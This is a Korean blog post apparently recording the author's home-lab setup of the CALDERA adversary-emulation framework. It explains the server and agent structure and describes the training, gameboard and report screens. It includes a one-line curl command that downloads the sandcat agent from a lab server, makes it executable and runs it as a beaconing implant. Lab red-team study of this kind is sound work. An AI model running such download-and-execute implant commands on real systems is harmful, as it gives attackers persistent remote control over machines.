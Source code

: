 ```yaml
---
layout: post
title:  "3.CALDERA 이해하기"
date:   2021-01-12
categories: jekyll update
---
```


##CALDERA 설치 중 알게 된 사실 정리

* 결국은 여러대의 VM이 필요함
* sandcat은 go가 설치되어 있어야 함
* 전체적인 구조

본론부터 말하자면 칼데라는 사이버 킬체인을 구현할 수 있는 시뮬레이터다.
모의해킹을 도와주는 프레임워크라고 말 할 수있다.
그래서 이때까지 구현 한 것은 모의해킹을 전반적으로 관리해 주는 서버인 것이다.
실제로 옛날 문서를 구글링 해 본 결과, 칼데라에는 서버와 에이전트가 따로 존재했다.
즉, 서버가 구축되어 있는 리눅스와 에이전트를 심을 클라이언트 운영체제가 있어야 한다는 것이다.
윈도우나 리눅스, 맥같은 운영체제를 선택할 수 있는 항목이 있는 이유가 여기 있었다.
서버는 오직 리눅스에서, 클라이언트는 각종 운영체제를 선택 할 수 있다.

나는 CentOS를 하나 더 구축해서 에이전트를 투입하고 사이버 공격을 시도하는 실험을 진행했다.
![시작](/img/시작.PNG)
실험을 할 CentOs Desktop

![구조](/img/구조.png)
현재 VM 구조

여기서 Agent를 침투시키는 명령어가 있는데,
``server="http://172.30.1.37:8888";curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > sandcat.go;chmod +x sandcat.go;./sandcat.go -server $server -group red -v``
이 코드를 복사 해서 Desktop Interface의 Putty에 붙여넣어 주었다.
그럼 해당 경로에 `sandcat.go` 라는 go 파일이 생기는데, 여기서 알 수 있듯 **반드시** 해당 컴퓨터에는 go 언어가 깔려 있어야 한다. 여기서 go의 버전은 1.11 이상이여야 한다. 즉, 칼데라 서버에서도 go가 깔려 있어야 하고 침투시킬 PC에서도 go가 깔려 있어야 한다.

![agnet](/img/ㅋㅋㅋ.PNG)
그렇게 되면 저번과 다르게 이렇게 비콘을 통해 지속적으로 신호를 주고 받는다!
또한 2번째 텝에 있었던 능력을 실제로 적용해 진행하는 모습을 보인다.

![1](/img/트레이닝.PNG)
그럼 이렇게 첫 번째 트레이닝을 통과 할 수 있다.
구글링을 해 본 결과 모든 트레이닝을 통과하면 인증서를 발급 받을 수 있다고 한다.
그런데 당장 필요한 기능은 아닌 것 같으니 넘어가자.

![2](/img/뭔가되더라.PNG)
게임보드에 가게 되면 이렇게 red와 blue의 현재 상황을 볼 수 있다.
당연히 blue팀에 대해서는 아무 것도 하지 않았으므로 0점이다.

![3](/img/스크롤.PNG)
모든 작전이 끝나고 나면 이렇게 리포트를 다운받을 수 있는데, 이것 역시 처음과는 다르게 스크롤의 수가 아주 긴 것을 볼 수 있다. 여기서는 시행한 모든 공격에 대한 보고가 자세하게 적혀있다.

###아직 해결하지 못한 문제들
![4](/img/에러.PNG)
서버의 로그 인데, 몇 시에 난 건지는 적혀 있지만 저 당시에 뭘 하고 있었는지는 정확히 알 수가 없다. 그래서 추후에 코드리딩을 통해 문제를 해결 할 것이다.
